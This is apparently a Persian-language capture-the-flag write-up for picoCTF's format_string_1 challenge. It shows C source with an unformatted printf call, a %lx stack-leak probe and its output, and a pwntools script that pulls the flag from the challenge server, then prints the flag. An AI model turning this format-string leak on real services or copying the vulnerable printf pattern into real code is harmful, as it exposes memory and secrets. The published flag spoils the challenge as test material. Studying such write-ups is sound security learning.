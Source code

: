 ```yaml
---
tags:
  - PWN
---
```

# format_string_1

 سلام سلام !
 با یه چالش جالب اومدیم از 
 [picoCTF](https://play.picoctf.org/practice/challenge/434) 


این از سورس .
``` c
#include <stdio.h>
#include <stdlib.h>

int main() {
    char buffer[1024];
    printf("Give me your order and I'll read it back to you:\n");
    fflush(stdout);
    fgets(buffer, sizeof(buffer), stdin);
    printf("Here's your order: ");
    printf(buffer); // آسیب‌پذیری فرمت استرینگ اینجا است
    printf("Bye!\n");
    fflush(stdout);
    return 0;
}
```

مشاهده می‌کنیم که تابع printf(buffer) بدون مشخص‌کننده فرمت (format specifier) استفاده شده است. این یعنی اگر ورودی ما شامل مشخص‌کننده‌های فرمت مثل %x یا %lx باشد، برنامه مقادیر را از روی پشته (stack) می‌خواند و نمایش می‌دهد. این یک آسیب‌پذیری فرمت استرینگ (format string vulnerability) است که می‌توانیم از آن برای استخراج اطلاعات استفاده کنیم.

رفتار برنامه در عمل اینگونه است:

``` shell
$ ./format-string-1
Give me your order and I'll read it back to you:
1:%lx.2:%lx.3:%lx.4:%lx.5:%lx.6:%lx.7:%lx.8:%lx.9:%lx.10:%lx.11:%lx.12:%lx.13:%lx.14:%lx.15:%lx.16:%lx.17:%lx.18:%lx.19:%lx.20:%lx.
Here's your order: 1:7ffd81524750.2:0.3:0.4:a.5:400.6:6d20746572636573.7:6d65746920756e65.8:a322320.9:7f6580102ab0.10:7ffd00000000.11:7ffd81524978.12:0.13:7ffd81524980.14:7b4654436f636970.15:616c665f656b6166.16:a7d67.17:0.18:0.19:7f65800f8817.20:7f6580103648.
Bye!
```
با ارسال رشته‌ای شامل مشخص‌کننده‌های %lx (برای نمایش مقادیر ۶۴ بیتی در مبنای ۱۶)، مقادیر مختلفی از پشته دریافت کردیم. نکته جالب اینجاست که در آفست ۱۴ مقدار 7b4654436f636970 ظاهر شده که به نظر می‌رسد بخشی از پرچم (flag) باشد.

مقدار 7b4654436f636970 را تحلیل می‌کنیم. این مقدار هگزادسیمال است و به دلیل ترتیب بایت‌ها (endianness) باید برعکس شود. آن را به ASCII تبدیل می‌کنیم:
``` shell
$ echo '7b4654436f636970' | xxd -r -p | rev
picoCTF{
```

حال یک اسکریپت پایتون با استفاده از ماژول pwntools مینویسیم که فلگ را برای ما استخراج کند.
``` py
#!/usr/bin/python
from pwn import *

SERVER = "mimas.picoctf.net"
PORT = 60865

io = remote(SERVER, PORT)
io.sendlineafter(b"Give me your order and I'll read it back to you:\n", b"%14$lx.%15$lx.%16$lx.%17$lx")
output = io.recvlineS().split(':')[1].strip().split('.')
flag = ""
for part in output:
    try:
        flag += p64(int(part, 16)).decode()
    except:
        pass
print(f"پرچم: {flag}")
io.close()
```

فلگ پیدا شد !!!

??? success "FLAG :triangular_flag_on_post:"
    <div dir="ltr">`picoCTF{n1m14_57y13_x4_f14g_b5}`</div>

--- 

!!! نویسنده
    [sw33tw3as3l](https://github.com/sw33tw3as3l)